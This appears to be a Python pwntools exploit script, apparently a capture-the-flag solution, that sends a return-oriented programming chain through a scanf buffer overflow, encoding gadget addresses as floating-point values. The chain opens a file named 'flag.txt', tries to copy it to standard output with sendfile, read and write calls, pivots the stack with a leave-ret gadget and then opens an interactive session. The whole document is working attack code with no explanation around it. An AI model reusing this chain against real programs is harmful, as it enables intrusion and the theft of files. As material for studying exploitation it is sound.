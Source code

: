 ```py
ret = (rop.find_gadget(['ret']))[0]

gdbscript="""
b *{}
b *{}
""".format(leave_ret, syscall)
#gdb.attach(io, gdbscript=gdbscript)

def pack_input(data):
    val = p64(data).hex()
    return (struct.unpack('d', bytes.fromhex(val))[0])

def create_string(string):
    f = string.encode().hex()
    ba = bytearray.fromhex(f)
    ba.reverse()
    s = ''.join(format(x, "02x") for x in ba)
    return s

def send_address(addr):
    io.sendline("{}".format(pack_input(addr)))

print("Addr: scanf({}) buffer({})".format(hex(scanf_leak), hex(buffer_leak)))
def overflow(r):
    send_address(0x007478742e67616c66)
    send_address(0x00)
    
    # Open
    send_address(pop_rdi)
    send_address(buffer_leak)
    send_address(pop_rsi)
    send_address(0x0)
    send_address(pop_rax)
    send_address(0x2)
    send_address(syscall)
    
    # attempt to sendfile
    send_address(libc.address + 0x000000000003d1ee)
    send_address(0x200)
    send_address(pop_rsi)
    send_address(0x3)
    send_address(pop_rdi)
    send_address(1)
    send_address(libc.address + 0x0000000000119170)

    send_address(libc.sym.read)

    send_address(libc.sym.write)
    send_address(pop_rdi)

    io.sendline(b".")
    io.sendline("{}".format(pack_input(buffer_leak + 8)))


def first_stage():
    overflow(0);
    io.sendline("{}".format(pack_input(leave_ret)))

first_stage()
io.interactive()
```
